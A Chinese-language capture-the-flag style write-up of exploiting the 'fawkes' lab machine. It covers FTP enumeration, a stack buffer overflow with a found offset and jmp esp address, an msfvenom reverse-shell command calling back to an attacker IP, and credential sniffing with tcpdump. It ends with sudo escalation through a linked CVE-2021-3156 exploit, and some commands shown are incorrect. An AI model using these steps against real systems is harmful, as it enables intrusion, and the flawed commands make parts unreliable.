# 前言


这次的靶机与前面不同，这里涉及到缓冲区溢出等，值得研究

靶机虚拟机环境为`virtualbox`，网卡为桥接模式

靶机：`fawkes`

攻击：`kali`


# 主机发现


使用`arp-scan -l`扫描，在同一网卡下





# 信息收集


## 端口发现

使用`nmap`简单扫描一下端口



可以看到两个SSH服务端口，只是使用的版本不同，还有一个`9898`端口，不知道是什么服务


## 网站目录扫描


一般网站可能都是目录型，这里直接进行扫描




很是罕见的什么都没有扫到，访问网站进行查看


啧，电影海报啊，这里下载图片，看有无隐藏信息




## 测试9898端口

虽是接口有返回信息等，但是毫无用处




## 测试21端口


测试使用`anonymous`匿名用户尝试登录，空密码登录成功，发现有文件，下载到`kali`




查看文件类型，是可执行文件




## 信息点小结

1. 80端口只有一张图片，并且无其他内容
2. SSH服务有两个端口，但是没有任何的用户名和密码
3. FTP匿名登录成功，获取到可执行文件

# 测试可执行文件

根据上面的信息小结，可以知道，现在可用的也许只有SSH爆破和这个下载的可执行文件

给予执行权限




可以知道靶机上的`9898`端口的作用，应该就是启动了这个服务，为详细准确，再使用`nc`测试一遍




对该执行文件进行调试

## 关闭kali的alsr功能


`alsr`是内存地址随机化的安全技术，如若不关闭，会导致内存地址一直变化，无法确定关键点（缓存溢出的位置）

```shell
cd /proc/sys/kernel
echo randomize_va_space
```





## 使用工具进行调试

可以使用`edb-debugger`安装即可，或使用`gdb`


输入命令`edb`打开图形化界面进行调试

首先把可执行文件加入到调试器中，然后选择`attch`




当然这里的`attch`是通过进程进行的测试，所以需要输入关键字`server`来过滤，只要那个服务的开启。直接导入文件的话，是不需要的




初步调试，确定是否可行，在用户输入的话，也必须开始调试才能进行下一步。那么交互的话，用户可输入，就使劲输入，看程序是否崩溃或者怎么样。

平常在数据库中，不就是有的是有长度限制吗。





尝试输入很多数值字符来判断，这里最终测试400个`A`时，出现错误，地址`0x41414141`不存在




## 缓冲区溢出

可以看到，这里被覆盖了




`EIP`寄存器，是执行下一跳指令的内存地址，就是可以指定跳转到那里

`ESP`寄存器，是存储数据的，具体指令


那么使用`msf`生成400无规律排列的字符，方便寻找到在那里溢出

```shell
msf-pattern_create -l 400
```




记住这个地址，然后使用`msf`去寻找刚刚生成的那个序列排在哪里

```shell
msf-pattern_offset -l 400 -q 0x64413764
```





可以确定偏移量为112，可以生成112个`A`，4个`B`,和多个`C`

因为之前报错也是可以看到的，为四个字符16进制组成

可以看到，这里的报错是`B`的十六进制




从下面也可以清晰的看出`EIP`的指定内存地址，以及`ESP`的指令




下面就需要构造使得`EIP`指向`ESP`的内存地址，而`ESP`的指令该怎么能够获得反弹`shell`


首先要知道`ESP`的内存地址，这样就可以自己加上这个内存地址，防止溢出





选择可执行的内存地址，因为这是跳转到指令，而且如果不能执行，修改了也无作用




点击`find`，记下`jmp esp`的内存地址，`0x08049d55`




`jmp esp`是一条汇编指令。`jmp`是 “jump” 的缩写，意思是跳转。`esp`是栈指针寄存器（Extended Stack Pointer）。这条指令的作用是使程序的执行流程跳转到`esp`寄存器所指向的内存地址。


## 制造反弹shell

已知偏移量为`112`，`ESP`内存地址为`0x08049d55`，那么只需要编造16进制的`payload`进行反弹`shell`，这里的靶机为小端序，内存地址需要颠倒`\x55\x9d\x04\x08`


```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.16 LPORT=8888 -b "\x00" -f python
```





把上面生成的写入到`python`文件中，但是这里只是生成`ESP`所要执行的指令，还需要和前面的溢出配合，不然无法正确的使`EIP`跳转正确





在`payload`中加了之前并没有的`'\x90'*32`是为了防止恶意代码离的太近




然后这时候，运行可执行文件，然后另起终端开启监听`8888`端口，与上面的反弹`shell`端口一致

然后执行`python`脚本


在本机上运行的服务进行而此时，成功




那么修改`payload`为靶机地址和端口，然后测试




反弹成功，获取一个`shell`




# 提权

测试，靶机没有`python`，无法使用`python`创建交互式的终端，测试使用`/bash/bash -i`也不行，

最终是`/bash/sh -i`成功，在当前目录下，发现可能是密码的文本`HarrYp0tter@Hogwarts123`




尝试使用`ssh`测试，默认端口的SSH服务连接不上，测试`2222`端口的




使用`find`查找具有`SUID`权限的，有`sudo`并且可以执行任意



查看后，发现`root`没有密码，直接`sudo su -`切换到`root`，然后呢，查看`root`目录下的文件





这里说，"我们发现有人试图经过FTP的错误去登录，你应该去分析流量然后指出用户"

这里测试靶机有无监听流量的工具，如`wireshark、tcpdump`

查看网卡信息



使用`tcpdump`监听

获取到用户名`neville`，密码`bL!Bsg3k`

```shell
tcpdump -i eth0 port 21
```




使用这个用户名和密码登录，注意，这里登录的是22端口的SSH服务



寻找`SUID`，发现找到`sudo`，但是不能使用




收集信息




使用`searchsploit`搜索，发现提权中的方法与可以使用的，不匹配

## 漏洞提权


在百度搜索，确实有，项目地址`https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py`

漏洞介绍`https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit`




测试，靶机有`nc`命令，也有`wget`命令

把`py`文件传输到靶机，使用`wget`也行





最终提权成功




# 清除痕迹




# 总结

整个靶机的重点在于缓冲区溢出

1. 要知道什么是缓冲区溢出，然后就是会找到溢出位置
2. 理解两个寄存器`EIP`和`ESP`
3. 要会编写一个简单的`python`来直接进行发送信息
4. 当`sudo -l`不可用，以及其他不能提权时，想到内核漏洞以及命令版本漏洞


## 使用工具

`edb-debugger`进行文件调测，找到缓冲溢出的位置

`msf-pattern_create  -l 400`生成400个无规律排列字符

`msf-apttern_offset -l 400 -q 0x64413764`找到刚刚生成字符的位置，这里是十六进制进行查找

`which`定位命令路径

`lsb_release -a`查看系统

`sudo --version`查看命令版本


